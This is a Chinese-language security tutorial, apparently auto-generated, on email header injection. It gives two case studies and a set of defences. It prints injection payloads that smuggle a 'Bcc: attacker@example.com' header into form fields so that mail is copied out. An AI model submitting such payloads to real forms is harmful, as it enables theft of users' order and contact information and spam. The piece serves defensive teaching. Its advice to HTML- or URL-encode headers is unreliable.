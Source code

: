 ### 邮件头注入攻击案例分析

#### 1. 引言
邮件头注入攻击（Email Header Injection）是一种Web安全漏洞，攻击者通过在邮件头中注入恶意内容，利用邮件服务器的功能发送伪造邮件或进行其他恶意操作。这种攻击通常发生在Web应用程序中，特别是那些允许用户通过表单提交邮件内容的场景。本文将通过分析真实世界中的邮件头注入攻击案例，深入探讨其原理、危害及防御措施。

#### 2. 邮件头注入攻击原理
邮件头注入攻击的核心在于攻击者能够通过输入恶意内容，控制邮件头中的字段，如“From”、“To”、“Subject”等。邮件头通常由多个字段组成，每个字段以“字段名: 字段值”的形式存在，字段之间用换行符（\r\n）分隔。攻击者通过在输入中插入换行符，可以添加新的邮件头字段或修改现有字段，从而控制邮件的内容和发送行为。

例如，一个典型的邮件头可能如下：
```
From: user@example.com
To: recipient@example.com
Subject: Hello
```
如果攻击者在“From”字段中注入换行符，可以添加新的字段：
```
From: user@example.com\r\nBcc: attacker@example.com
```
这将导致邮件被发送到`attacker@example.com`，而收件人并不知情。

#### 3. 真实案例分析

##### 3.1. 案例一：某电商平台的邮件通知漏洞
**背景**：某电商平台允许用户通过表单提交订单，并在订单完成后发送邮件通知。邮件内容由用户输入的“订单号”和“备注”字段生成。

**漏洞描述**：攻击者发现，平台在处理用户输入的“备注”字段时，未对换行符进行过滤。通过在“备注”字段中注入换行符，攻击者可以控制邮件头字段。

**攻击过程**：
1. 攻击者提交订单，并在“备注”字段中输入以下内容：
   ```
   \r\nBcc: attacker@example.com
   ```
2. 平台生成邮件头时，将“备注”字段的内容直接插入邮件头：
   ```
   From: support@example.com
   To: user@example.com
   Subject: Order Confirmation
   Bcc: attacker@example.com
   ```
3. 邮件被发送到`attacker@example.com`，攻击者成功获取了订单信息。

**影响**：攻击者可以窃取用户的订单信息，甚至利用该漏洞发送大量垃圾邮件。

##### 3.2. 案例二：某社交平台的邮件邀请漏洞
**背景**：某社交平台允许用户通过邮件邀请好友加入平台。用户输入好友的邮箱地址，平台生成并发送邀请邮件。

**漏洞描述**：平台在处理用户输入的邮箱地址时，未对换行符进行过滤。攻击者通过在邮箱地址中注入换行符，可以控制邮件头字段。

**攻击过程**：
1. 攻击者输入以下邮箱地址：
   ```
   friend@example.com\r\nBcc: attacker@example.com
   ```
2. 平台生成邮件头时，将邮箱地址直接插入邮件头：
   ```
   From: user@example.com
   To: friend@example.com
   Bcc: attacker@example.com
   Subject: Join our platform!
   ```
3. 邮件被发送到`attacker@example.com`，攻击者成功获取了邀请信息。

**影响**：攻击者可以窃取用户的社交关系信息，甚至利用该漏洞发送大量垃圾邮件。

#### 4. 防御措施

##### 4.1. 输入验证与过滤
**原理**：对用户输入进行严格的验证和过滤，确保输入内容符合预期格式，避免恶意内容注入。

**实施**：
- 对用户输入的邮件地址、备注等字段进行格式验证，确保其不包含换行符等特殊字符。
- 使用正则表达式或其他过滤机制，去除或转义潜在的恶意字符。

##### 4.2. 输出编码
**原理**：在将用户输入插入邮件头之前，对其进行编码，确保恶意内容无法被解释为邮件头字段。

**实施**：
- 对用户输入的内容进行HTML编码或URL编码，确保换行符等特殊字符被转义。
- 使用安全的邮件库或API，自动处理邮件头的生成和发送，避免手动拼接邮件头。

##### 4.3. 使用安全的邮件库
**原理**：使用经过安全审计的邮件库或API，自动处理邮件头的生成和发送，减少手动操作带来的风险。

**实施**：
- 选择知名的邮件库，如PHPMailer、SwiftMailer等，确保其具备良好的安全性和稳定性。
- 遵循邮件库的最佳实践，避免直接拼接邮件头字段。

##### 4.4. 日志与监控
**原理**：通过日志记录和实时监控，及时发现和响应潜在的邮件头注入攻击。

**实施**：
- 记录所有邮件发送的日志，包括邮件头内容、发送时间、发送者等信息。
- 设置实时监控系统，检测异常的邮件发送行为，如大量邮件发送、邮件头字段异常等。

#### 5. 结论
邮件头注入攻击是一种严重的Web安全漏洞，攻击者通过控制邮件头字段，可以窃取敏感信息、发送垃圾邮件或进行其他恶意操作。通过分析真实世界中的案例，我们可以看到，输入验证、输出编码、使用安全的邮件库以及日志监控是防御邮件头注入攻击的有效措施。开发者应高度重视邮件处理的安全性，确保用户输入的内容不会对系统造成威胁。

---

*文档生成时间: 2025-03-11 13:56:27*






















